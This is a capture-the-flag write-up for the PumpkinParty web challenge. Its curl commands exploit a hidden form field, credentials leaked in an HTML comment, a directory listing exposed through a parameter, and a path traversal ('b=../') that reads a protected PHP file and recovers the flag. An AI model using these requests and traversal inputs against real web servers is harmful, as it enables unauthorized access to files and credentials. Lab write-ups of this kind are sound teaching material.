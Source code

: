 ## PumpkinParty
After we launched the container, we got an ip for the host. Let's call it `$HOSTIP`.

With `nmap $HOSTIP` we find out the host only listens on port 80.

Open that IP in a Web browser. It presents a page with a link at the bottom.
The link leads to a page for buying tickets, `/tickets.php`. It contains a form
with form fields for the number of tickets for each ticket type, e.g.
`normal\_count` or `vip\_count`.

The page's source code contains a comment which says that there's a fourth
ticket type 'merchant' which is not implemented yet. Since this type is not
included in the form we need to use `curl` to send a request with this ticket
type.

We used this command to submit the form with one merchant ticket:

    curl -i -H 'application/x-www-form-urlencoded' -F 'merchant_count=1' http://$HOSTIP/tickets.php?action=submit

The response is HTTP 302 that redirects to `?action=confirm` and has a
`Set-Cookie` header with the key `PHPSESSID`. We save it for later use.

    PHPSESSID=b3ec83b80e0774419f9269dce56b45ce

Following 'confirm' with

    curl -iv -b PHPSESSID=b3ec83b80e0774419f9269dce56b45ce -v http://$HOSTIP/tickets.php?action=confirm

returns a page with a table where the order is summarized. There's a button that sends a request to `?action=buy`.

Let's send a request:


    curl -iv -b PHPSESSID=b3ec83b80e0774419f9269dce56b45ce -v http://$HOSTIP/tickets.php?action=buy

We get a page with an HTML comment saying:

    <!-- @WEBDEVS user/pass merch_test2/BUYMYSHORTS !!!REMOVE IN PROD!!! -->

The question is: Where is this merchant page?

We guess and send

    curl -u merch_test2:BUYMYSHORTS -vi http://$HOSTIP/merchants/

The returned page contains JavaScript that iterates over the response of
`/merchants/processor.php?a=registered` to display merchant information.
For each value that is returned at this path another GET request to
`/merchants/processor.php?b=<MERCHANT>` is sent to get information about each
merchant.

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?a=registered

    ["Bobs Bar","Himalaya Hats","Ingrids Imbiss"]

What happens if we replace the value `registered` with something else, say, a dot?

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?a=.

It yields a list of filenames:

    [".htaccess",".htpasswd","327a6c4304ad5938eaf0efb6cc3e53dc.php","index.php","processor.php","registered"]

Apparently, `registered` is a directory and there's a suspicious file
`327a6c4304ad5938eaf0efb6cc3e53dc.php`, which is in the same directory as
`processor.php`.

However, accessing `/merchants/327a6c4304ad5938eaf0efb6cc3e53dc.php` returns a HTTP 403 (forbidden).

We need to look into this file.

Since the JavaScript code sends requests to
`/merchants/processor.php?b=<MERCHANT>` and the value of this parameter seems
to be file, we could get the suspicious file this way.

`processor.php` outputs files given in parameter `b` which are in the directory
`registered`. Since `327a6c4304ad5938eaf0efb6cc3e53dc.php` is in a directory above `registered` we need to send

    curl -u merch_test2:BUYMYSHORTS -vi http://10.10.1.3/merchants/processor.php?b=../327a6c4304ad5938eaf0efb6cc3e53dc.php

The PHP file asks for a GET parameter `admin` that must have the value `sure`. So let's do the request

    curl -u merch_test2:BUYMYSHORTS -vi http://10.10.1.3/merchants/327a6c4304ad5938eaf0efb6cc3e53dc.php?admin=sure

The returned HTML page contains the flag: `DORF18{Y0UR\_5H3LL\_15\_1N\_4N0TH3R\_C45TL3}`.
